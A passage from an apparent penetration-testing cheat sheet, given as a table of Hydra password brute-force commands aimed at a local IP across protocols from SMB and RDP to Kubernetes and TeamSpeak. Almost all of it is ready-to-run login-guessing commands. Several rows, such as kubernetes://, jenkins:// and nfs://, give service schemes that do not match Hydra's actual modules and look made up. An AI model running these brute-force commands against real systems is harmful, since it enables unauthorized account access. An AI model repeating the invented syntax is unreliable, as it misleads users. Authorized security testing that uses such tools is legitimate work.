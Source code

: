 | SMB                   | `hydra -l admin -P passwords.txt smb://192.168.1.10`            | SMB login brute-forcing             |
| RDP                   | `hydra -l admin -P passwords.txt rdp://192.168.1.10`            | RDP login brute-forcing             |
| VNC                   | `hydra -l admin -P passwords.txt vnc://192.168.1.10`            | VNC login brute-forcing             |
| LDAP                  | `hydra -l admin -P passwords.txt ldap://192.168.1.10`           | LDAP login brute-forcing            |
| IMAP                  | `hydra -l admin -P passwords.txt imap://192.168.1.10`           | IMAP login brute-forcing            |
| POP3                  | `hydra -l admin -P passwords.txt pop3://192.168.1.10`           | POP3 login brute-forcing            |
| NFS                   | `hydra -l admin -P passwords.txt nfs://192.168.1.10`            | NFS login brute-forcing             |
| Oracle                | `hydra -l admin -P passwords.txt oracle://192.168.1.10`         | Oracle login brute-forcing          |
| HTTP(S) Custom Method | `hydra -l admin -P passwords.txt http-get://192.168.1.10/admin` | HTTP(S) custom method brute-forcing |
| Cisco                 | `hydra -l admin -P passwords.txt cisco-tacacs+://192.168.1.10`  | Cisco TACACS+ login brute-forcing   |
| Rlogin                | `hydra -l admin -P passwords.txt rlogin://192.168.1.10`         | Rlogin login brute-forcing          |
| Kubernetes            | `hydra -l admin -P passwords.txt kubernetes://192.168.1.10`     | Kubernetes login brute-forcing      |
| Jenkins               | `hydra -l admin -P passwords.txt jenkins://192.168.1.10`        | Jenkins login brute-forcing         |
| WebDAV                | `hydra -l admin -P passwords.txt webdav://192.168.1.10`         | WebDAV login brute-forcing          |
| TeamSpeak             | `hydra -l admin -P passwords.txt teamspeak://192.168.1.10`      | TeamSpeak login brute-forcing       |

Hydra’s extensive support for various services makes it a versatile tool for brute-force attacks, allowing for efficient testing of multiple protocols and systems.